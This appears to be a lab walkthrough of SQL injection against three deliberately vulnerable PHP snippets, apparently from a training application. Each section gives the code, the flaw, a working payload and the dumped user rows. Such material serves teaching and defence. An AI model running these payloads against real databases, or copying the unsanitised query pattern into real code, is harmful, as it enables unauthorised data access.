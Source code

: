 # Vulnerable Code 1

This code fetches "first_name" and "last_name" of a user with given "user_id"

```php
<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}

?> 
```

# Abuse

Since there is no input sanitation for user input, we can sent a payload that didnt expected and get all data from database.

# Payload

```php
' or '1'='1
```

Query that reaches to the database (mysql) will be:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' or '1'='1';
```

# Result

```php
ID: ' or '1'='1
First name: admin
Surname: admin

ID: ' or '1'='1
First name: Gordon
Surname: Brown

ID: ' or '1'='1
First name: Hack
Surname: Me

ID: ' or '1'='1
First name: Pablo
Surname: Picasso

ID: ' or '1'='1
First name: Bob
Surname: Smith
```

# Vulnerable Code 2

```php
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Display values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

}

// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
?> 
```


# Abuse

In this code, the id parameter is not inside of apostrophe character so payload will be without it

# Payload

```php
1 or 1=1
```

Query that reaches to the database (mysql) will be:

```sql
SELECT first_name, last_name FROM users WHERE user_id=1 or 1=1;
```


# Result

```php
ID: 1 or 1=1
First name: admin
Surname: admin

ID: 1 or 1=1
First name: Gordon
Surname: Brown

ID: 1 or 1=1
First name: Hack
Surname: Me

ID: 1 or 1=1
First name: Pablo
Surname: Picasso

ID: 1 or 1=1
First name: Bob
Surname: Smith
```


# Vulnerable Code 3

```php
<?php

if( isset( $_SESSION [ 'id' ] ) ) {
    // Get input
    $id = $_SESSION[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);        
}

?> 
```

# Abuse

In this code there is "Limit 1" at the end of sql query which means we cant get all database like code-1 and code-2. To abuse this code, we will use the same logic in code-1 but also will add "-- -" to make comment rest of the query. 

# Payload

```sql
1' or '1'='1'; -- -
```

Query that reaches to the database (mysql) will be:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' or '1'='1'; -- -' LIMIT 1;
```

# Result

```php
ID: 1' or '1'='1'; -- -
First name: admin
Surname: admin

ID: 1' or '1'='1'; -- -
First name: Gordon
Surname: Brown

ID: 1' or '1'='1'; -- -
First name: Hack
Surname: Me

ID: 1' or '1'='1'; -- -
First name: Pablo
Surname: Picasso

ID: 1' or '1'='1'; -- -
First name: Bob
Surname: Smith
```